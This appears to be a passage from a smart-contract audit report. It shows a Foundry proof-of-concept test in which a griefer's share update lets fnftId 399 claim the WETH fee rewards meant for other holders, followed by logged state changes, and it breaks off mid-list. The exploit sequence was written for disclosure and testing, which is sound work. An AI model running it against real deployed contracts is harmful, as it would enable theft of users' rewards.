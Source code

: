 ```
//------------------------------------------------------------------------------------------------------------------------------
         //=> now watching the users transactions, bad actor or griefer updates his shares of  fnftId:1 with 250 newAllocPoint
        vm.startPrank(address(staking));
         rewards.updateLPShares(399,250);
        vm.stopPrank();
//------------------------------------------------------------------------------------------------------------------------------
 
        vm.startPrank(address(5));
        deal(address(weth),address(5),100);
    
        IERC20(weth).approve(address(rewards), 100);
        rewards.receiveFee(weth, 100);//user with address 5 calling the receive function with amount 100 for token `weth`
        vm.stopPrank();
      
        uint wethLpglobal1 = rewards.wethLPGlobalMul();//fetching the wethLpglobalMul after the receiveFee function for the update value of wethLpglobalMul
        console2.log("wethLpglobalMul after : ",wethLpglobal1);
        uint rewa1 = rewards.getRewards(299,weth);//fetching the total rewards for fnftId 299
        console2.log("Rewards for id 299 is :",rewa1);
         uint rewa2 = rewards.getRewards(300,weth);//fetching the total rewards for fnftId 300
        console2.log("Rewards for id 300 is :",rewa2);
        uint rewa3 = rewards.getRewards(301,weth);//fetching the total rewards for fnftId 301
        console2.log("Rewards for id 301 is :",rewa3);
//------------------------------------------------------------------------------------------------------------------------------
         
        uint reward_griefer = rewards.getRewards(399,weth);//fetching the total rewards for fnftId 399
        console2.log("Rewards for id 399 i.e Griefer/bad actor is :",reward_griefer);
        
        vm.prank(address(staking));
         uint re = rewards.claimRewards(399, address(50));//here the griefer claim all the rewards
         console2.log("claimReward return value : ",re);
//------------------------------------------------------------------------------------------------------------------------------
 
    }   

    

}
```
##### Below is the series of steps executed in above coded POC

```

totalLpAllocPoint = 1

totalBasicAllocPoint = 1
updateLpshares(299,5)

	totalLpAllcoation=6
	
	wethLPBalances[2].allocPoint = 5
	
	wethLPBalances[2].lastMul = 1000016079683536019878780989
	
	rvstLPBalances[2].allocPoint = 5
```
